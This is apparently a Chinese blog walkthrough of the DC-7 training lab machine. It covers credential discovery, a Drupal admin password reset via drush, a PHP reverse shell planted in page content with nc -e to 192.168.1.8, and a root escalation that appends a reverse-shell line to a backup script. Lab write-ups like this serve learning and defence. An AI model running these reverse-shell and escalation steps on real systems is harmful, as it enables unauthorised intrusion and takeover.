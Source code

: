 ```yaml
---
title: DC_7靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_13.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false



---
```


# DC_7靶机渗透测试

## 一、信息收集

- 扫描主机并查看开放了哪些端口

![image-20210704200627247](http://cdn.mxrblog.cn/image-20210704200627247.png)

- 进入靶机页面

![image-20210704200224803](http://cdn.mxrblog.cn/image-20210704200224803.png)

- 根据上面所说，我们会在这次实验中获得新的知识，这不全是关于技术方面的，还有一些其他的，如果我们非要使用字典暴力破解，我们可能会得到失败的结果。
- 所以按照提示所说，我们注意到outside the box，也就是文字框之外的东西，注意到下面有个@DC7USER，尝试在这上面下功法

![image-20210704195910291](http://cdn.mxrblog.cn/image-20210704195910291.png)

- Google一下，看看是否有神奇的事情发生

![image-20210704200939048](http://cdn.mxrblog.cn/image-20210704200939048.png)

- 打开这个DcUser的仓库，看看有什么值得我们挖掘的

![image-20210704201412676](http://cdn.mxrblog.cn/image-20210704201412676.png)

![image-20210704201446429](http://cdn.mxrblog.cn/image-20210704201446429.png)

- 我们发现的一个数据库的账号密码，尝试用这个数据库的账号密码进行ssh远程登录连接**(万事成功皆始于尝试！！！)**

![image-20210704201944625](http://cdn.mxrblog.cn/image-20210704201944625.png)

- 查看一下都有啥，发现一封新邮件，于是查看这封邮件，只发现给了一个 /opt/scripts/backups.sh

![image-20210704202527016](http://cdn.mxrblog.cn/image-20210704202527016.png)

- 运行一下这个文件看看会有什么情况发生，但是发现知只是运行了一下备份程序

![image-20210704202842039](http://cdn.mxrblog.cn/image-20210704202842039.png)

- 查看一下这个备份文件的内容，发现命令drush，通过这个命令我们可以修改Drupal的后台管理员admin的密码

![image-20210704203131035](http://cdn.mxrblog.cn/image-20210704203131035.png)

```
运行 drush user-password someuser --password="password" 命令重设用户密码。

drush user-password admin --password="123"
```

- 运行的时候发现报错，说运行环境必须是Drupal环境，于是我们进入/var/www/html 进行运行

![image-20210704204351108](http://cdn.mxrblog.cn/image-20210704204351108.png)

- 用修改过的密码登录

![image-20210704205049268](http://cdn.mxrblog.cn/image-20210704205049268.png)

- 为了能够反弹shell，我们下载php插件，这个在durpal7里面是自带的，但是版本8为了安全起见需要用户自行安装

- 安装链接为： 

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

![image-20210704210039029](http://cdn.mxrblog.cn/image-20210704210039029.png)

![image-20210704205822856](http://cdn.mxrblog.cn/image-20210704205822856.png)

![image-20210704205940056](http://cdn.mxrblog.cn/image-20210704205940056.png)

![image-20210704210114085](http://cdn.mxrblog.cn/image-20210704210114085.png)

![image-20210704210415079](http://cdn.mxrblog.cn/image-20210704210415079.png)

- 在Content栏选择Welcome to DC-7 进行页面编辑

![image-20210704210651960](http://cdn.mxrblog.cn/image-20210704210651960.png)

- 编辑页面，用过php进行反弹shell

```
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>
```

![image-20210704212041999](http://cdn.mxrblog.cn/image-20210704212041999.png)

- 回到Welcome to DC-7页面浏览后(刷新)，在攻击机器nc开启4444端口进行监听

![image-20210704212209875](http://cdn.mxrblog.cn/image-20210704212209875.png)

- 获取交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210704212311287](http://cdn.mxrblog.cn/image-20210704212311287.png)

- 发现文件/opt/scripts/backups.sh是以root身份执行的

![image-20210704213029372](http://cdn.mxrblog.cn/image-20210704213029372.png)

- 向该文件中写入反弹shell命令， 反弹到我们的攻击机器上

```
echo "nc -e /bin/bash 192.168.1.8 6666" >> backups.sh
```

- 攻击机器打开6666号端口，nc进行流量监听

![image-20210704220139504](http://cdn.mxrblog.cn/image-20210704220139504.png)

